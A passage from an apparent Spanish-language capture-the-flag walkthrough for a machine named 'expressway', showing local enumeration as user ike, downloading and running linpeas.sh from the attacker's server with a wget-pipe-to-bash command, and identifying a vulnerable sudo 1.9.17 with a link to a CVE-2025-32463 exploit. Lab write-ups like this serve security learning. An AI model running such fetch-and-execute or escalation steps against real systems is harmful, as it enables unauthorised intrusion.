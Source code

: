 Veamos qué privilegios tiene nuestro usuario:
```bash
ike@expressway:~$ sudo -l
Password: 
Sorry, user ike may not run sudo on expressway.
```
No tenemos privilegios.

Veamos a qué grupos pertenecemos:
```bash
ike@expressway:~$ id
uid=1001(ike) gid=1001(ike) groups=1001(ike),13(proxy)
```
No veo una forma de abusar del **grupo Proxy**.

Podemos utilizar la herramienta **linpeas.sh** para tratar de identificar una vulnerabilidad.

Puedes descargarlo aquí:
* <a href="https://github.com/peass-ng/PEASS-ng" target="_blank">Repositorio de peass-ng: PEASS-ng</a>

Levanta un servidor con **Python3** en donde tengas el **linpeas.sh**:
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Y vamos a ejecutarlo de forma remota desde la máquina víctima con **wget** y **bash**:
```bash
ike@expressway:~$ wget -qO- http://<Tu_IP>/linpeas.sh | bash
```
Analizando el resultado, no encontraremos algo como tal que nos ayude, más que la llave privada **id_rsa** del **usuario ike**.

Pero algo que sí podemos ver, es la versión del comando **sudo**:
```bash
╔══════════╣ Sudo version
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-version
Sudo version 1.9.17
```
Resulta que esta versión desactualizada es vulnerable, lo que nos puede permitir escalar privilegios para convertirnos en **Root**.

Podemos comprobar la versión de **sudo** de la siguiente forma:
```bash
ike@expressway:~$ sudo -V
Sudo version 1.9.17
Sudoers policy plugin version 1.9.17
Sudoers file grammar version 50
Sudoers I/O plugin version 1.9.17
Sudoers audit plugin version 1.9.17
```

Buscando en internet, encontraremos varios Exploits para esta versión de **sudo**, siendo la que yo ocuparé la siguiente:
* <a href="https://github.com/KaiHT-Ladiant/CVE-2025-32463" target="_blank">Repositorio de KaiHT-Ladiant: CVE-2025-32463</a>
